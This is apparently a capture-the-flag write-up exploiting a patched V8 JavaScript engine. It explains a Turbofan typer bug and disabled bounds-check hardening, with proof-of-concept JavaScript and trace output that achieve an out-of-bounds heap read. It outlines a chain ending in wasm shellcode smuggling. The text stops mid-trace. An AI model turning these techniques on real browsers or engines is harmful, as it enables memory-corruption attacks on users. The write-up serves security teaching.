







<font size='10'></font>

Objection

11<sup>th</sup> May 2026

Prepared By: `0xA5h`

Challenge Author(s): `0xA5h`

Difficulty: <font color='red'>Insane</font>


<br><br>
<br><br>

# Synopsis

The target is a patched v8 javascript interpreter. It is vulnerable to a typer bug where JSToNumber fails to consider to consider the case where the input is an object. You can chain this with another other bug that allows an attacker to create an array with a length greater than its allocated size, to get OOB read/writes on the v8 heap. USe these writes to leverage fakeobj and addrof primitives, and then arbitrary read/writes inside and outside the v8 heap. Corrupt a wasm_instance object to do a shellcode smuggling attack to get code execution.

## Skills Required

- Python
- v8 Javascript
- C++

## Skills Learned

- An understanding of V8's Turbofan Optimization
- Exploiting turbofan in v8
- Memory corruption in v8
- Shellcode smuggling in v8

# Enumeration

## server.py

This is what the user interacts with. It simply prompts for a base64-encoded javascript file, which will be run by `./d8`, and the output will be printed to the user. The aim from this is clear: we have to exploit `d8` to print the contents of `flag.txt`.

## patch.diff

```diff
diff --git a/src/compiler/operation-typer.cc b/src/compiler/operation-typer.cc
index d29765040fa..1c48d9d7547 100644
--- a/src/compiler/operation-typer.cc
+++ b/src/compiler/operation-typer.cc
@@ -267,7 +267,7 @@ Type OperationTyper::ToNumber(Type type) {
   // Number their callbacks might produce. Similarly in the case
   // where {type} includes String, it's not possible at this point
   // to tell which exact numbers are going to be produced.
-  if (type.Maybe(Type::StringOrReceiver())) return Type::Number();
+  if (type.Maybe(Type::String())) return Type::Number();
 
   // Both Symbol and BigInt primitives will cause exceptions
   // to be thrown from ToNumber conversions, so they don't
diff --git a/src/d8/d8.cc b/src/d8/d8.cc
index bac27d18768..3158ea859ce 100644
--- a/src/d8/d8.cc
+++ b/src/d8/d8.cc
@@ -4736,6 +4736,7 @@ void Shell::Initialize(Isolate* isolate, D8Console* console,
           v8::Isolate::kMessageInfo | v8::Isolate::kMessageDebug |
           v8::Isolate::kMessageLog);
 
+  /*
   isolate->SetHostImportModuleDynamicallyCallback(
       Shell::HostImportModuleDynamically);
   isolate->SetHostImportModuleWithPhaseDynamicallyCallback(
@@ -4744,6 +4745,7 @@ void Shell::Initialize(Isolate* isolate, D8Console* console,
       Shell::HostInitializeImportMetaObject);
   isolate->SetHostCreateShadowRealmContextCallback(
       Shell::HostCreateShadowRealmContext);
+  */
 
   debug::SetConsoleDelegate(isolate, console);
 }
@@ -4759,9 +4761,12 @@ MaybeLocal<Context> Shell::CreateEvaluationContext(Isolate* isolate) {
       reinterpret_cast<i::Isolate*>(isolate)->main_thread_local_isolate(),
       context_mutex_.Pointer());
   // Initialize the global objects
-  Local<ObjectTemplate> global_template = CreateGlobalTemplate(isolate);
+  //Local<ObjectTemplate> global_template = CreateGlobalTemplate(isolate);
   EscapableHandleScope handle_scope(isolate);
-  Local<Context> context = Context::New(isolate, nullptr, global_template);
+  //Local<Context> context = Context::New(isolate, nullptr, global_template);
+  Local<Context> context = Context::New(
+    isolate, nullptr, ObjectTemplate::New(isolate),
+    v8::MaybeLocal<Value>());
   if (context.IsEmpty()) {
     DCHECK(isolate->IsExecutionTerminating());
     return {};
diff --git a/src/flags/flag-definitions.h b/src/flags/flag-definitions.h
index 4a7c02cc4c7..7ec475d87bc 100644
--- a/src/flags/flag-definitions.h
+++ b/src/flags/flag-definitions.h
@@ -1654,7 +1654,7 @@ DEFINE_IMPLICATION(turbo_stress_instruction_scheduling,
 DEFINE_BOOL(turbo_store_elimination, true,
             "enable store-store elimination in TurboFan")
 DEFINE_BOOL(trace_store_elimination, false, "trace store elimination")
-DEFINE_BOOL_READONLY(turbo_typer_hardening, true,
+DEFINE_BOOL_READONLY(turbo_typer_hardening, false,
                      "extra bounds checks to protect against some known typer "
                      "mismatch exploit techniques (best effort)")
 

```

This is a patch that's been applied to v8's revision `3e7b7965795953da7b80b370ff1e21559a99d58f`. There's 3 main things that this patch does:

### Remove global functions

d8 provides some extra functions that the v8 javascript core doesn't, such as the ability to read and write files or execute scripts. These provide an easy cheese to v8 challenges, so like others, it patches these functions out by removing the `global_template`, and removing callbacks for things like importing modules.

### Patch OperationTyper::ToNumber

```diff
diff --git a/src/compiler/operation-typer.cc b/src/compiler/operation-typer.cc
index d29765040fa..1c48d9d7547 100644
--- a/src/compiler/operation-typer.cc
+++ b/src/compiler/operation-typer.cc
@@ -267,7 +267,7 @@ Type OperationTyper::ToNumber(Type type) {
   // Number their callbacks might produce. Similarly in the case
   // where {type} includes String, it's not possible at this point
   // to tell which exact numbers are going to be produced.
-  if (type.Maybe(Type::StringOrReceiver())) return Type::Number();
+  if (type.Maybe(Type::String())) return Type::Number();
 
   // Both Symbol and BigInt primitives will cause exceptions
   // to be thrown from ToNumber conversions, so they don't
```

This is the first of 2 changes to Turbofan.

Turbofan is an optimisation feature in v8, which is used to optimise JIT'ed code for functions. Functions in javascript are typically compiled to ignition bytecode before being executed by the interpreter. However v8 seeks to optimise functions that get executed many times, and so it will eventually JIT compile these functions to optimised machine code. When the ignition bytecode for that function is being executed, type feedback information will be collected (for function arguments and certain operations), so that v8 knows what data types it's dealing with (e.g. numbers, strings, etc.). These JIT'ed functions make assumptions that future calls to the function will have the same types, and specialises to handle these specific cases it's already seen. Turbofan then uses this type feedback to trace all the possible types that each variable and operation can take in a function, and reduce and simplify the code.

Turbofan is very complex, so to see more, [here's](https://doar-e.github.io/blog/2019/01/28/introduction-to-turbofan) a good resource for getting into it.


This specific patch is done in `operation-typer.cc`, which handles the types for nodes for common operations, such as arithmetic or logical operators. This operation is `ToNumber`, which attempts to convert any type of object (e.g. number, strings, booleans etc.) to a number.

The source code for this node is [below](https://github.com/v8/v8/blob/3e7b7965795953da7b80b370ff1e21559a99d58f/src/compiler/operation-typer.cc#L263):
```cpp
Type OperationTyper::ToNumber(Type type) {
  if (type.Is(Type::Number())) return type;

  // If {type} includes any receivers, we cannot tell what kind of
  // Number their callbacks might produce. Similarly in the case
  // where {type} includes String, it's not possible at this point
  // to tell which exact numbers are going to be produced.
  if (type.Maybe(Type::StringOrReceiver())) return Type::Number();

  // Both Symbol and BigInt primitives will cause exceptions
  // to be thrown from ToNumber conversions, so they don't
  // contribute to the resulting type anyways.
  type = Type::Intersect(type, Type::PlainPrimitive(), zone());

  // This leaves us with Number\/Oddball, so deal with the individual
  // Oddball primitives below.
  DCHECK(type.Is(Type::NumberOrOddball()));
  if (type.Maybe(Type::Null())) {
    // ToNumber(null) => +0
    type = Type::Union(type, cache_->kSingletonZero, zone());
  }
  if (type.Maybe(Type::Undefined())) {
    // ToNumber(undefined) => NaN
    type = Type::Union(type, Type::NaN(), zone());
  }
  if (type.Maybe(singleton_false_)) {
    // ToNumber(false) => +0
    type = Type::Union(type, cache_->kSingletonZero, zone());
  }
  if (type.Maybe(singleton_true_)) {
    // ToNumber(true) => +1
    type = Type::Union(type, cache_->kSingletonOne, zone());
  }
  return Type::Intersect(type, Type::Number(), zone());
}
```

The first line is `if (type.Is(Type::Number())) return type;`, which makes sense: if a number is being converted to a number, then the output will be the same, so it retains its type.

The next line is the one that's being patched: `if (type.Maybe(Type::StringOrReceiver())) return Type::Number();`. It's important to note that the object being passed to `ToNumber()` can have multiple possible types.

Take a simplified example:
```js
function (b) {
   var x = null;
   if (b) {
      x = "2";
   } else {
      x = 1;
   }
   var y = +x;    // ToNumber()
}
```
`x` can be either `"2"` or `1`, depending on `b`. Its type could be considered `Range(1, 1) | String`, as it can be either type. This wouldn't pass the first `type.Is(Type::Number()` check, because even though it could be a number, it could *also* be a string. Turbofan would test if `x` can be a string by using `type.Maybe(Type::String())` for example, which checks for the existence of `String` in the type union.

If `x = "2"`, then `x` is converted to `2`. So the typer has to account for string conversions to numbers, however it doesn't track the value of string is can be, only that its a string. So when it sees that `x` could theoretically be a string, it has to assume that string could contain anything, and thus fallback to typing `x` as a generic `Type::Number()` (which includes `NaN`).

The same holds for "receivers", which this line also tests for. In this context, a receiver is a ["JS Object"](https://github.com/v8/v8/blob/3e7b7965795953da7b80b370ff1e21559a99d58f/src/compiler/operation-typer.cc#L1277). A JSObject can have a custom method that decides how that object is converted to a number, for example `valueOf`:

```js
var x = {valueOf: function() {return 1337;}};
var y = +z;
console.log(y);      // 1337
```

Similar story to the strings, turbofan doesn't track the object's value, so it doesn't know anything about any possible `valueOf` method it may have, so it also falls back to `Type::Number()`.

However, the patch changes `Type::StringOrReceiver()` to `Type::String()`, so its not checking whether the object passed to `ToNumber()` is a JSObject, so it wouldn't fall back! This means we could manipulate the typer to believe that some variable is of some specific type, and smuggle past the fact that the real value comes from a `valueOf` function it can't account for, and has a different type!

### Disable turbofan hardening

```diff
diff --git a/src/flags/flag-definitions.h b/src/flags/flag-definitions.h
index 4a7c02cc4c7..7ec475d87bc 100644
--- a/src/flags/flag-definitions.h
+++ b/src/flags/flag-definitions.h
@@ -1654,7 +1654,7 @@ DEFINE_IMPLICATION(turbo_stress_instruction_scheduling,
 DEFINE_BOOL(turbo_store_elimination, true,
             "enable store-store elimination in TurboFan")
 DEFINE_BOOL(trace_store_elimination, false, "trace store elimination")
-DEFINE_BOOL_READONLY(turbo_typer_hardening, true,
+DEFINE_BOOL_READONLY(turbo_typer_hardening, false,
                      "extra bounds checks to protect against some known typer "
                      "mismatch exploit techniques (best effort)")
 
```

To combat the effectiveness of typer bugs, several extra checks have been put in place. Many of these are enforced bounds checks, as turbofan used to remove bounds checks if it could deem them unncessary. These extra checks are removed by disabling the `turbo_typer_hardening` flag.

# Solution

## Useful utils

These are util functions for converting between `BigInt`s and `float`s.

```js
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new BigUint64Array(buf);

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return u64_buf[0];
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = val;
    return f64_buf[0];
}

function hex(val) {
    return '0x' + val.toString(16);
};
```

## Triggering the typer bug

To trigger the bug, we'll modify the previous examples to trigger a `JSToNumber` on a JSObject.

To test this, we can use natives syntax, which allows us to control what functions get JIT optimised and when they do.

```js
function foo(y) {
    var z = {y:y, valueOf: function() {return this.y}};
    return +z;
}

%PrepareFunctionForOptimization(foo);
foo(0);
foo(1);
foo(2);

%OptimizeFunctionOnNextCall(foo);
console.log(foo(1337));
```

This example "warms up" the `foo` function with inputs `0`, `1` and `2`, then JIT compiles it, and calls the JIT'ed version with `1337`. This will trigger the bug, but results in:
```
$ ./d8 --allow-natives-syntax test.js
Trace/breakpoint trap (core dumped)
```

We can observe the behaviour of turbofan by using turbolizer:



The `JSCreateLiteralObject` refers to the `{y:y, ...}` object being created, which has type `OtherObject` (part of the `Receiver` type). This is passed to `JSToNumber` as expected, but the type it returns is `None` (not `Null`). This is because the type was only `OtherObject` and the case to handle this is patched out.

The result of this is that any code that uses the output of `JSToNumber` is deemed unreachable (as there's no way to handle something that has no type).



So what we need is for the input to `JSToNumber` to be of multiple possible types, not just `OtherObject`, so that the output isn't `None`.

```js
function foo(y) {
   var z = null;
   if (y < 0) {
      z = 0;
   } else {
      z = {y:y, valueOf: function() {return this.y}};
   }
   return +z;
}
%PrepareFunctionForOptimization(foo);
foo(-1);
foo(0);
foo(1);

%OptimizeFunctionOnNextCall(foo);
console.log(foo(1337));
```

```
$ ./d8 --allow-natives-syntax --trace-opt --trace-deopt test.js
[manually marking 0x032b0101862d <JSFunction foo (sfi = 0x32b01018585)> for optimization to TURBOFAN_JS, ConcurrencyMode::kSynchronous]
[compiling method 0x032b0101862d <JSFunction foo (sfi = 0x32b01018585)> (target TURBOFAN_JS), mode: ConcurrencyMode::kSynchronous]
[completed compiling 0x032b0101862d <JSFunction foo (sfi = 0x32b01018585)> (target TURBOFAN_JS) - took 0.018, 1.236, 0.034 ms]
1337
```



Here we have 2 options for `z`: `0` or `{y:y, valueOf: function() {return this.y}}`.

This gives `z` the type `OtherObject | Range(0,0)`. Passing this to `JSToNumber` essentially strips the `OtherObject` from the type and returns `Range(0,0)` (without the patch it should be `Number`). This means it believes the `+z` will always be `0`, however from the output of running it we can see that we have the JIT'ed `foo(1337)` returning `1337` (we know it's the JIT'ed version because otherwise it would have deoptimised, which we can detect with `--trace-deopt`).

## Eliminating bounds checks

This is a type mismatch, but it isn't dangerous in its current state. This is where the 2nd change to turbofan comes in: removing the turbofan hardening.

As mentioned earlier, turbofan has the potential to remove bounds checks if it deems them unncessary.

Take the following snippet in [simplified-lowering.cc](https://github.com/v8/v8/blob/3e7b7965795953da7b80b370ff1e21559a99d58f/src/compiler/simplified-lowering.cc#L2052):
```cpp
  void VisitCheckBounds(Node* node, SimplifiedLowering* lowering) {
    CheckBoundsParameters const& p = CheckBoundsParametersOf(node->op());
    FeedbackSource const& feedback = p.check_parameters().feedback();
    Type const index_type = TypeOf(node->InputAt(0));
    Type const length_type = TypeOf(node->InputAt(1));

    ...

        if (lower<T>()) {
          if (index_type.IsNone() || length_type.IsNone() ||
              (index_type.Min() >= 0.0 &&
               index_type.Max() < length_type.Min())) {
            // The bounds check is redundant if we already know that
            // the index is within the bounds of [0.0, length[.
            // TODO(neis): Move this into TypedOptimization?
            if (v8_flags.turbo_typer_hardening) {
              new_flags |= CheckBoundsFlag::kAbortOnOutOfBounds;
            } else {
              DeferReplacement(node, NodeProperties::GetValueInput(node, 0));
              return;
            }
          }
          ChangeOp(node,
                   simplified()->CheckedUint32Bounds(feedback, new_flags));
```

This is responsible for reduction of the `CheckBounds` node. The key condition is `(index_type.Min() >= 0.0 && index_type.Max() < length_type.Min())`. If it can determine that the set of possible indices fits inside `[0, length.min())`, then theoretically there's no possible way that the index could be outside the bounds of the array.

If `turbo_typer_hardening` is enabled, it forces the `CheckedUint32Bounds` node.

However, if `turbo_typer_hardening` is disabled, then it replaces the `CheckBounds` node using `DeferReplacement()` so that it just gets the index, *without* checking it.

We can modify our `foo` function to demonstrate this:
```js
function foo(y) {
   var z = null;
   if (y < 0) {
      z = 0;
   } else {
      z = {y:y, valueOf: function() {return this.y}};
   }

   var idx = +z;
   var arr = [1.1, 2.2, 3.3];
   return [arr, arr[idx]];
}
%PrepareFunctionForOptimization(foo);
foo(-1);
foo(0);
foo(1);

%OptimizeFunctionOnNextCall(foo);
console.log(foo(3)[1]);
```

```
$ ./d8 --allow-natives-syntax test.js
4.28856180568e-311
```

Here we're able to access index 3 of `arr`.


This is the Escape Analysis stage (right before Simplified Lowering, where the `CheckBounds` node reduction happens). Here we see `JSToNumber` returns `Range(0,0)` as expected, and it also loads `Range(3,3)`, which is the length `3` of `arr`. Both of these are used for a `CheckBounds` node.


Then in the Simplified Lowering stage, we see that there's no `CheckBounds` nodes: it just loads the number from `JSToNumber`, then does `LoadElement`.

It's also important that `arr` is defined inside the function, and *before* `idx = +z`. It `arr` was global, then turbofan has no reliable information as to its length, as it can change outside the function, so it will default to the largest possible range when it accesses its length.


Similarly when `+z` is computed, if that happens *after* array is defined (for example `return [arr, arr[+z]]`), then turbofan can't prove that `arr` wasn't changed by the `JSToNumber` call, as we know it can call callbacks.

## Moving from natives syntax

So far these POCs are using natives syntax, which we won't have access to in the challenge. So we need another way to compile `foo`. Typically this method would be simply calling `foo` many times:

```js
for (i=0 ; i<0x4000 ; i++) {
    foo(-1);
    foo(0);
    foo(1);
}

console.log(foo(3)[1]);
```

However this has recently been made slightly more complicated as of recently due to the addition of [Maglev](https://v8.dev/blog/maglev).

```
$ ./d8 --trace-opt --trace-deopt test.js
[marking 0x111601018659 <JSFunction foo (sfi = 0x1116010185ad)> for optimization to MAGLEV, ConcurrencyMode::kConcurrent, reason: hot and stable]
[compiling method 0x111601018659 <JSFunction foo (sfi = 0x1116010185ad)> (target MAGLEV), mode: ConcurrencyMode::kConcurrent]
[marking 0x1116010a04a1 <JSFunction valueOf (sfi = 0x111601018719)> for optimization to MAGLEV, ConcurrencyMode::kConcurrent, reason: hot and stable]
[compiling method 0x1116010a0549 <JSFunction valueOf (sfi = 0x111601018719)> (target MAGLEV), mode: ConcurrencyMode::kConcurrent]
[completed compiling 0x1116010a0549 <JSFunction valueOf (sfi = 0x111601018719)> (target MAGLEV) - took 0.000, 0.492, 0.004 ms]
[completed compiling 0x111601018659 <JSFunction foo (sfi = 0x1116010185ad)> (target MAGLEV) - took 0.001, 0.658, 0.003 ms]
[marking 0x111601018619 <JSFunction (sfi = 0x11160101854d)> for optimization to MAGLEV, ConcurrencyMode::kConcurrent, reason: hot and stable]
[compiling method 0x111601018619 <JSFunction (sfi = 0x11160101854d)> (target MAGLEV) OSR, mode: ConcurrencyMode::kConcurrent]
[completed compiling 0x111601018619 <JSFunction (sfi = 0x11160101854d)> (target MAGLEV) OSR - took 0.000, 0.665, 0.008 ms]
[compiling method 0x111601018619 <JSFunction (sfi = 0x11160101854d)> (target TURBOFAN_JS) OSR, mode: ConcurrencyMode::kConcurrent]
[completed compiling 0x111601018619 <JSFunction (sfi = 0x11160101854d)> (target TURBOFAN_JS) OSR - took 0.003, 2.150, 0.018 ms]
[completed optimizing 0x111601018619 <JSFunction (sfi = 0x11160101854d)> (target TURBOFAN_JS) OSR]
[bailout (kind: deopt-eager, reason: prepare for on stack replacement (OSR)): begin. deoptimizing 0x111601018619 <JSFunction (sfi = 0x11160101854d)>, 0x111601140f11 <Code MAGLEV>, opt id 2, bytecode offset 69, deopt exit 20, FP to SP delta 88, caller SP 0x7ffda92bdf30, pc 0x5a0263c42676]
Trace/breakpoint trap (core dumped)
```

Here we see that `foo` is being compiled with Maglev, but not Turbofan. Instead `JSFunction (sfi = 0x11160101854d)` is being compiled with Turbofan, which is the Top-Level-Script (i.e. the whole script). For our current setup to work, we need specifically `foo` to be compiled with Turbofan.

It seems Maglev is interfering with this, because running this without Maglev it works:
```
$ ./d8 --nomaglev --trace-opt --trace-deopt test.js
[marking 0x16a001018659 <JSFunction foo (sfi = 0x16a0010185ad)> for optimization to TURBOFAN_JS, ConcurrencyMode::kConcurrent, reason: hot and stable]
[compiling method 0x16a001018659 <JSFunction foo (sfi = 0x16a0010185ad)> (target TURBOFAN_JS), mode: ConcurrencyMode::kConcurrent]
[marking 0x16a001127bc1 <JSFunction valueOf (sfi = 0x16a001018719)> for optimization to TURBOFAN_JS, ConcurrencyMode::kConcurrent, reason: hot and stable]
[compiling method 0x16a001127cd5 <JSFunction valueOf (sfi = 0x16a001018719)> (target TURBOFAN_JS), mode: ConcurrencyMode::kConcurrent]
[completed compiling 0x16a001127cd5 <JSFunction valueOf (sfi = 0x16a001018719)> (target TURBOFAN_JS) - took 0.004, 0.625, 0.065 ms]
[completed optimizing 0x16a001127cd5 <JSFunction valueOf (sfi = 0x16a001018719)> (target TURBOFAN_JS)]
[completed compiling 0x16a001018659 <JSFunction foo (sfi = 0x16a0010185ad)> (target TURBOFAN_JS) - took 0.020, 1.591, 0.010 ms]
[completed optimizing 0x16a001018659 <JSFunction foo (sfi = 0x16a0010185ad)> (target TURBOFAN_JS)]
[marking 0x16a001018619 <JSFunction (sfi = 0x16a00101854d)> for optimization to TURBOFAN_JS, ConcurrencyMode::kConcurrent, reason: hot and stable]
[compiling method 0x16a001018619 <JSFunction (sfi = 0x16a00101854d)> (target TURBOFAN_JS) OSR, mode: ConcurrencyMode::kConcurrent]
4.28856180568e-311
[flushed compiling 0x16a001018619 <JSFunction (sfi = 0x16a00101854d)> (target TURBOFAN_JS) OSR]
```

My solution to this came when I wrote the rest of the exploit. It seems when the Top-Level-Script is much longer, it takes longer for it to compile (with Maglev and Turbofan), which allows `foo` to be compiled with Turbofan first, and then the exploit works.

```
$ ./d8 --trace-opt --trace-deopt exploit.js
[marking 0x1f2a0101974d <JSFunction foo (sfi = 0x1f2a01018df1)> for optimization to MAGLEV, ConcurrencyMode::kConcurrent, reason: hot and stable]
[compiling method 0x1f2a0101974d <JSFunction foo (sfi = 0x1f2a01018df1)> (target MAGLEV), mode: ConcurrencyMode::kConcurrent]
[marking 0x1f2a01142761 <JSFunction valueOf (sfi = 0x1f2a010199c9)> for optimization to MAGLEV, ConcurrencyMode::kConcurrent, reason: hot and stable]
[compiling method 0x1f2a011428a5 <JSFunction valueOf (sfi = 0x1f2a010199c9)> (target MAGLEV), mode: ConcurrencyMode::kConcurrent]
[completed compiling 0x1f2a01202335 <JSFunction valueOf (sfi = 0x1f2a010199c9)> (target MAGLEV) - took 0.000, 2.217, 0.019 ms]
[completed compiling 0x1f2a0101974d <JSFunction foo (sfi = 0x1f2a01018df1)> (target MAGLEV) - took 0.001, 3.673, 0.005 ms]
[marking 0x1f2a01019581 <JSFunction (sfi = 0x1f2a01018c49)> for optimization to MAGLEV, ConcurrencyMode::kConcurrent, reason: hot and stable]
[marking 0x1f2a0101974d <JSFunction foo (sfi = 0x1f2a01018df1)> for optimization to TURBOFAN_JS, ConcurrencyMode::kConcurrent, reason: hot and stable]
[compiling method 0x1f2a0101974d <JSFunction foo (sfi = 0x1f2a01018df1)> (target TURBOFAN_JS), mode: ConcurrencyMode::kConcurrent]
[compiling method 0x1f2a01019581 <JSFunction (sfi = 0x1f2a01018c49)> (target MAGLEV) OSR, mode: ConcurrencyMode::kConcurrent]
[completed compiling 0x1f2a01019581 <JSFunction (sfi = 0x1f2a01018c49)> (target MAGLEV) OSR - took 0.000, 0.442, 0.003 ms]
[marking 0x1f2a0126e5b1 <JSFunction valueOf (sfi = 0x1f2a010199c9)> for optimization to TURBOFAN_JS, ConcurrencyMode::kConcurrent, reason: hot and stable]
[compiling method 0x1f2a0126e6c5 <JSFunction valueOf (sfi = 0x1f2a010199c9)> (target TURBOFAN_JS), mode: ConcurrencyMode::kConcurrent]
[compiling method 0x1f2a01019581 <JSFunction (sfi = 0x1f2a01018c49)> (target TURBOFAN_JS) OSR, mode: ConcurrencyMode::kConcurrent]
[bailout (kind: deopt-eager, reason: Insufficient type feedback for generic global access): begin. deoptimizing 0x1f2a01019581 <JSFunction (sfi = 0x1f2a01018c49)>, 0x1f2a0104135d <Code MAGLEV>, opt id 3, bytecode offset 127, deopt exit 8, FP to SP delta 104, caller SP 0x7ffe03666008, pc 0x5e0670d02a76]
[completed compiling 0x1f2a0130021d <JSFunction valueOf (sfi = 0x1f2a010199c9)> (target TURBOFAN_JS) - took 0.002, 1.633, 0.009 ms]
[completed optimizing 0x1f2a0130021d <JSFunction valueOf (sfi = 0x1f2a010199c9)> (target TURBOFAN_JS)]
